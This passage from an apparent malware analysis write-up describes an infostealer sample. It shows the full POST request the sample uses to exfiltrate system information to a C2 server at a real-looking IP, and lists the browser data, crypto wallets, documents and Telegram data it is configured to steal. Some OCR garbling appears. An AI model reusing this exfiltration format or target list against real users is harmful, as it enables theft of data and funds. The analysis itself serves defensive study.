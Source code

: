 ```String
```
The boundary string will be used to delimit the system information in the POST request.

Send a POST request containing the data collected to the C2 server. The request will be in the following format:
```String
POST /<token> HTTP/1.1
Accept: */*
Content-Type: multipart/form-data; boundary=<boundary>
User-Agent: 125122112551
Host: 83.217.11.34
Content-Length: <length>
Connection: Keep-Alive
Cache-Control: no-cache
–<boundary>
Content-Disposition: form-data; name="file"; filename="System Info.txt"
Content-Type: multipart/form-data
System Information: 
	- Locale: English
	- Time zone: 	
	- OS: Windows 10 Home
	- Architecture: x64
	- CPU: Intel(R) Core(TM) i7-6700 CPU @ 340GH (2 cores)
	- RAM: 4095 MB
	- Display size: 1536x781
	- Display Devices:
		0) NVIDIA GeForce GTX 580
Installed applications:
	010 Editor 1201 (64-bit) 
	7-Zip 1505 beta x64 
	...
	<many more>
--<boundary>--
```

#### Data Theft
After the system information is exfiltrated, the malware begins to steal more sensitive data. In the interest of brevity, I am not going to dig any further into the functionality here. There are many other writeups which do a great job of this. I will simply list the items which this sample is configured to steal.
```String
Browser Data
Various Crypto wallets from software/extensions
	BlockstreamGreen
	TronLink
	MetaMask
	Binance
	Ronin
	JaxxLiberty
	Atomic
	Coinomi
	Electrum
	ElectronCash
	Guarda
	LedgerLive
	Daedalus
	MyMonero
	Wasabi
Local Documents
	%USERPROFILE%\Desktop\|*.txt
	%USERPROFILE%\Desktop\|*.dox
	%USERPROFILE%\Documents\|*.txt
	%USERPROFILE%\Desktop\|*.pdf
Telegram
```